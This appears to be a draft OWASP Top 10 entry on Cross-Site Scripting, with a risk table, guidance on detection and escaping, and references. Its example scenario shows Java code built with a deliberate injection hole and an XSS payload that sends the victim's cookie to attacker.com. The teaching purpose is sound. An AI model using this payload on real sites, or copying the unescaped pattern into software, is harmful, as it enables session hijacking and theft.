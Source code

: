 # A3 Cross Site Scripting

| Threat agents | Exploitability | Prevalance | Detectability | Technical Impact | Business Impacts |
| --- | --- | --- | --- | --- | --- |
| App Specific |  EASY | COMMON | AVERAGE | SEVERE | App Specific | 
| TBA | TBA | TBA | TBA. | TBA |

## Am I vulnerable to attack?

You are vulnerable to Server XSS if your server-side code uses user-supplied input as part of the HTML output, and you don’t use context-sensitive escaping to ensure it cannot run. If a web page uses JavaScript to dynamically add attacker-controllable data to a page, you may have Client XSS. Ideally, you would avoid sending attacker-controllable data to unsafe JavaScript APIs, but escaping (and to a lesser extent) input validation can be used to make this safe.
Automated tools can find some XSS problems automatically. 

However, each application builds output pages differently and uses different browser side interpreters such as JavaScript, ActiveX, Flash, and Silverlight, usually using 3rd party libraries built on top of these technologies. This diveristy makes automated detection difficult, particularly when using modern single-page applications and powerful JavaScript frameworks and libraries. Therefore, complete coverage requires a combination of manual code review and penetration testing, in addition to automated approaches.

## How do I prevent

Preventing XSS requires separation of untrusted data from active browser content.

To avoid Server XSS, the preferred option is to properly escape untrusted data based on the HTML context (body, attribute, JavaScript, CSS, or URL) that the data will be placed into. See the OWASP XSS Prevention Cheat Sheet for details on the required data escaping techniques.

To avoid Client XSS, the preferred option is to avoid passing untrusted data to JavaScript and other browser APIs that can generate active content. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the OWASP DOM based XSS Prevention Cheat Sheet.

For rich content, consider auto-sanitization libraries like OWASP’s AntiSamy or the Java HTML Sanitizer Project.
Use [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) (CSP) to mitigate the impact of potential XSS across your entire site.

## Example Scenarios

The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

The attacker modifies the ‘CC’ parameter in his browser to:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session. 
Note that attackers can also use XSS to defeat any  automated CSRF defense the application might employ. See 2017-A8 for info on CSRF.

## References

### OWASP
* [OWASP Proactive Controls - TBA]()
* [OWASP Application Security Verification Standard - TBA]()
* [OWASP Testing Guide: 1st 3 Chapters on Data Validation Testing]()
* OWASP Types of Cross-Site Scripting
* OWASP XSS Prevention Cheat Sheet
* OWASP DOM based XSS Prevention Cheat Sheet
* OWASP XSS Filter Evasion Cheat Sheet
### External
* CWE Entry 79 on Cross-Site Scripting
* Do we have a non-vendor reference for this? [PortSwigger: Client-side template injection](https://portswigger.net/knowledgebase/issues/details/00200308_clientsidetemplateinjection)
